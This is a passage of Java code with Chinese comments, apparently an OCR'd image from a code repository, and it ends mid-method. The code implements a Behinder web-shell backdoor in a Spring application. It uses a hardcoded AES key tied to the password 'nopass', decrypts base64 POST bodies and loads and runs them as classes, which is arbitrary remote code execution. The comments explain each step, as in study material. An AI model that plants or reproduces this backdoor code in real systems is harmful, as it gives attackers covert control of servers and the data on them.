 ```java
    }

    // 处理远程命令执行请求
    public void cmd() {
        HttpServletRequest request = null;
        HttpServletResponse response = null ;
        try{
            request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        }catch (Exception e){
            System.out.println("Get __ request Error ");
            System.out.println("Get __ response Error ");
            System.out.println(e);
        }

        //注入冰蝎
        if (request.getMethod().equals("POST")) {

            HttpSession session = request.getSession();


            String k = "0945fc9611f55fd0e183fb8b044f1afe".substring(0,16);/*该密钥为连接密码32位md5值的前16位，连接密码nopass*/
            session.putValue("u", k);
            Cipher c = null;
            try {
                c = Cipher.getInstance("AES");
            } catch (NoSuchAlgorithmException e) {
                e.printStackTrace();
            } catch (NoSuchPaddingException e) {
                e.printStackTrace();
            }
            try {
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            } catch (InvalidKeyException e) {
                e.printStackTrace();
            }

            HashMap<Object, Object> pageContext = new HashMap<>();
            pageContext.put("request",request);
            pageContext.put("response",response);
            pageContext.put("session",session);
            try {
                new Eval(this.getClass().getClassLoader())

                        //调用方法g 加载一个类
                        .g(
                                c.doFinal(
                                        //sun.misc.BASE64Decoder 类被用于解码 HTTP POST 请求中的数据，
                                        // 该数据经过 BASE64 编码。这个操作通常在服务器端用于处理客户端传递的数据，
                                        // 尤其是在需要进行数据解密或还原时。
                                        new sun.misc.BASE64Decoder()
                                                .decodeBuffer(request.getReader().readLine())))
                        //调用完g 加载一个类，调用newInstance() 后 ,相当于new
                        .newInstance().equals(pageContext);
            } catch (InstantiationException e) {
                e.printStackTrace();
            } catch (IllegalAccessException e) {
                e.printStackTrace();
            } catch (IllegalBlockSizeException e) {
```